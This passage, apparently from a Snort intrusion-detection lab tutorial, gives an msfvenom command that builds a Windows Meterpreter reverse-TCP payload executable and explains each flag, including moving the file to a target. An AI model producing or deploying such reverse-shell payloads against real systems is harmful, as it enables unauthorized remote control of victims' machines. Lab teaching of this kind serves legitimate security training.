 ![image.png](Files/6-InstallingSnort/image102.webp)

### Create an .exe payload

Go to Kali Linus and run the command below.

```jsx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > payload.exe
```

### **Command Breakdown:**

1. **`msfvenom`**
    - A tool to generate various types of payloads for penetration testing. It combines `msfpayload` and `msfencode`.
2. **`p windows/meterpreter/reverse_tcp`**
    - Specifies the payload type.
    - **Payload:** `windows/meterpreter/reverse_tcp`
        - This payload creates a **reverse shell** using the **Meterpreter** session.
        - The reverse shell connects from the target back to the attacker's machine (instead of the attacker initiating the connection).
3. **`LHOST=<your_IP>`**
    - Specifies the **local host** (your IP address) where the target machine will connect back. Replace `<your_IP>` with your attack machine’s IP.
4. **`LPORT=4444`**
    - Specifies the **local port** that the target machine will connect to.
    - You can change `4444` to any open port on your system.
5. **`f exe`**
    - Specifies the **output format**.
    - In this case, the payload is generated as a Windows **`.exe`** file.
6. **`> payload.exe`**
    - Redirects the output to a file named `payload.exe`.
    - This file can be transferred to the target machine for execution.
